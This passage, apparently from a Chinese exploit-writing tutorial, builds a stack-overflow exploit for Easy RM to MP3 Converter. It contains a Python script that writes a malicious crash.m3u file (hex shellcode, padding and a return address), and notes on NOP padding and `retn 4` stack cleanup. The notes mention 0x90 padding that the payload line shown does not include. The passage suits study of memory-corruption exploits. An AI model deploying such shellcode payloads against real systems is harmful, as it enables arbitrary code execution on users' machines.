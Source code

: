 ```python
shellcode += "\x2d\x05\x43\x24\xc5\x4b\xac\xd5\x15\x2c\x24\x30"
shellcode += "\x24\x6c\x52\x30\x16\x5c\x10\x14\x9a\x17\x74\x8d"
shellcode += "\x29\x55\x51\xa2\x9a\xd0\x87\x8d\x1b\x48\xfb\x8c"
shellcode += "\x9f\x93\x28\x6f\x9e\x5b\x3d\x6e\xe7\x86\xcc\x22"
shellcode += "\xb0\xcd\x63\xd3\xb5\x98\xbf\x58\x85\x0d\xb8\xbd"
shellcode += "\x5d\x2f\xe9\x13\xd6\x76\x29\x95\x3b\x03\x60\x8d"
shellcode += "\x58\x2e\x3a\x26\xaa\xc4\xbd\xee\xe3\x25\x11\xcf"
shellcode += "\xcc\xd7\x6b\x17\xea\x07\x1e\x61\x09\xb5\x19\xb6"
shellcode += "\x70\x61\xaf\x2d\xd2\xe2\x17\x8a\xe3\x27\xc1\x59"
shellcode += "\xef\x8c\x85\x06\xf3\x13\x49\x3d\x0f\x9f\x6c\x92"
shellcode += "\x86\xdb\x4a\x36\xc3\xb8\xf3\x6f\xa9\x6f\x0b\x6f"
shellcode += "\x12\xcf\xa9\xfb\xbe\x04\xc0\xa1\xd4\xdb\x56\xdc"
shellcode += "\x9a\xdc\x68\xdf\x8a\xb4\x59\x54\x45\xc2\x65\xbf"
shellcode += "\x22\x3c\x2c\xe2\x02\xd5\xe9\x76\x17\xb8\x09\xad"
shellcode += "\x5b\xc5\x89\x44\x23\x32\x91\x2c\x26\x7e\x15\xdc"
shellcode += "\x5a\xef\xf0\xe2\xc9\x10\xd1\x80\x8c\x82\xb9\x68"
shellcode += "\x2b\x23\x5b\x75"

payload = "A"*offset + struct.pack("<I",ret_addr) + "B"*4 + shellcode

f = open("crash.m3u","w")
f.write(payload)
```
以上 exp 中有 2 点需要注意的。
1. 由于是跳转到栈顶 esp 中执行 shellcode，eip 与 esp 的位置是紧挨着的，shellcode 执行过程中如果需要修改栈中数据将有可能把 shellcode 指令部分修改，因此要在 shellcode 前面预留一段内存作为栈空间，这里填充了 30 个 0x90。

2. 由于 sub_41E2B0 函数在返回时使用 `retn 4` 清栈。
```C
.text:0041E9D9                 mov     eax, 1
.text:0041E9DE                 pop     esi
.text:0041E9DF                 pop     ebp
.text:0041E9E0 ; 208:   dword_47BEA8 = 1;
.text:0041E9E0                 mov     dword_47BEA8, eax
.text:0041E9E5                 pop     ebx
.text:0041E9E6                 add     esp, 8918h
.text:0041E9EC                 retn    4
.text:0041E9EC sub_41E2B0      endp
```
 `retn 4` 具体操作如下，因此需要在 shellcode 前填充 4 个字节，才能通过 `jmp esp` 跳转到 shellcode 中执行。
```C
pop eip
跳转到 eip
add esp, 4
```
____
References:   
[1] [A Tale of Exploit "Easy RM 2 MP3](https://r00tk1ts.github.io/2018/06/24/A%20Tale%20of%20Exploit%20Easy%20RM%202%20MP3%20Converter/)   
[2] [Learn Corelan Exploit Writing Part 1](https://larry.ngrep.me/2018/08/04/learn-corelan-exploit-writing-part-one/)
